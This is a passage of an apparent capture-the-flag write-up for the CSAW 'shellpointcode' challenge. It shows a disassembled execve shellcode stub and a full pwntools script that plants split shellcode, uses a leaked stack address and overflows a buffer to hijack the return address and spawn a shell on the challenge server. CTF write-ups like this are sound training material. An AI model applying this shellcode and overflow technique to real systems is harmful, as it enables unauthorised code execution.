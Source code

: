 ```
  4000a5:	90                   	nop
  4000a6:	90                   	nop
  4000a7:	90                   	nop
  4000a8:	31 f6                	xor    esi,esi
  4000aa:	f7 e6                	mul    esi
  4000ac:	04 3b                	add    al,0x3b
  4000ae:	48 f7 df             	neg    rdi
  4000b1:	57                   	push   rdi
  4000b2:	54                   	push   rsp
  4000b3:	5f                   	pop    rdi
  4000b4:	0f 05                	syscall 

```

putting it all together, we get the following exploit:
```
# Import pwntools
from pwn import *

# Establish the target process
#target = process('./shellpointcode')
target = remote('pwn.chal.csaw.io', 9005)
#gdb.attach(target)


# Establlish the two 15 byte shellcode blocks
s0 = "\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\xe9\x11\x00\x00\x00"
s1 = "\x90\x31\xf6\xf7\xe6\x04\x3b\x48\xf7\xdf\x57\x54\x5f\x0f\x05"


# Send the second block first, since it will be stored in memory where it will be exeucted second 
print target.recvline('node 1:\n')
target.sendline(s1)

# Send the first block of shell code
print target.recvline('node 2:\n')
target.sendline(s0)

# Grab and filter out the infoleak
print target.recvuntil('node.next:')
leak = target.recvline()
leak = leak.replace('\x0a', '')
print 'leak: ' + leak
leak = int(leak, 16)
log.info("Leak is: " + hex(leak))

# Send the buffer overflow to overwrite the return address to our shellcode, and get code exec
target.sendline('0'*11 + p64(leak + 0x8))

# Drop to an interactive shell
target.interactive('node.next: ')
```
